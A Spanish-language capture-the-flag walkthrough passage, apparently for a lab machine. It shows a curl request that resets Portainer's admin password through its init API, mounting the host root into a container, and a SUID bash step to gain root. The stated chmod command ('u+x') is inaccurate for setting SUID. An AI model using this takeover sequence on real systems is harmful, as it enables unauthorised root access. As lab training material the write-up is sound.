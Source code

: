 ```bash
COMMAND   PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
ssh     14080 root    4u  IPv6 107500      0t0  TCP localhost:9000 (LISTEN)
ssh     14080 root    5u  IPv4 107501      0t0  TCP localhost:9000 (LISTEN)
```
Y ahora por aqui ya estariamos viendo el servicio de PORTAINER en nuestro 127.0.0.1:9000 
```bash
# curl -s -X POST "http://127.0.0.1:9000/api/users/admin/init" --data  'Username=Topro&Password=pro'  
{"err":"Invalid JSON"}
```
# Portainer Docker App Administration
Buscamos credenciales por defecto y encontramos una forma de setear o resetear la contraseña del admin si no ha sido previamente cambiada.Probamos:

```bash                               
┌──(root💀pro)-[/home/pro]
└─# curl -s -X POST "http://127.0.0.1:9000/api/users/admin/init" --data  '{"Username": "admin", "Password": "pro"}'
```
Entramos a la aplicacion Portainer y vemos que podemos crear un contenedor asique seguimos con el concepto de montar la / raiz de la maquina en un contenedor alojado como una montura para poder cambiar los archivos de la maquina y que se retoquen en la misma maquina

Para ello nos vamos a containers
creamos uno nuevo, le decimos que use la misma imagen que la que aparece en otro contenedor `ya cargado`.
Procedemos a crear la montura de la `/` en nuestro contenedor de nombre `SeTenso` `/mnt/root/`.
le damos a crear. Lo bueno del `Portrainer` es que en nuestro contenedor podemos lanzar una shell interactiva en `/bin/sh/` para poder acceder a la montura creada en el contenedor y visualizar todo el sistema `10.10.10.96` desde la `/`. Ya que tenemos una shell por ssh vamos a darle permisos SUID a la bash para poder conectarnos como root haciendo un `bash -p`. `chmod u+x /bin/bash`  

Cambiamos a la shell por ssh y obtenemos root
```bash
dorthi@Oz:/bin$ bash -p
bash-4.3# whoami
root
bash-4.3# 
```
Y ya podriamos sacar la flag `root.txt`. Maquina Rooteada =D
